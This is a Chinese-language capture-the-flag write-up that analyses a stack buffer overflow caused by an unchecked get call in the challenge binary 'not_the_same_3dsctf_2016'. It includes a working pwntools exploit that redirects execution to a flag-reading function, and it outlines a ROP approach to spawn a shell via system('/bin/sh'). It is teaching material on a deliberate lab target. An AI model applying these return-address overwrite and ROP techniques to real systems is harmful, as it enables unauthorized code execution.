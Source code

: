 ## 0x001 程序分析

分析main函数

![](1.png)

这个倒也没什么好分析的，程序很短，使用 **get** 接收输入.

## 0x002 漏洞分析

漏洞位于main函数中，在使用 **get** 函数接收输入时，未对输入内容的长度做校验，导致可以使输入内容覆盖到返回地址。

## 0x003 漏洞利用

分析了下程序中的其他函数，发现有个函数 **get_secret**，可以直接读取 **flag.txt** 文件内容，并将结果保存到全局变量 **fl4g** 中。

![](2.png)

使用checksec查看程序

![](3.png)

程序只开启了NX保护，那么这个漏洞利用就很简单，首先通过溢出覆盖返回地址到 **get_secret** 函数处读取 **flag.txt** 文件内容，然后调用 **printf** 函数打印全局变量 **fl4g** 的值，就可以获取flag了。

python3 exp如下：
```
from pwn import *

p = process("./not_the_same_3dsctf_2016")

# payload = 填充 + get_secret() + printf_plt + exit() + fl4g
payload = b"A" * 0x2d + p32(0x80489a0) + p32(0x804f0a0) + p32(0x804e660) + p32(0x80eca2d)

p.sendline(payload)
print (p.recv())
```

这里为什么要在调用完printf之后，调用exit呢？因为远程连接，如果程序不正常返回，是不会有回显的，也就接收不到打印的flag了。

还有另一种方式，就是通过printf泄露函数的真实地址，使用LibcSearcher或DynELF泄露libc中system及/bin/sh的真实地址，然后就可以通过ROP构造执行system("/bin/sh")指令的payload，可直接获取系统权限。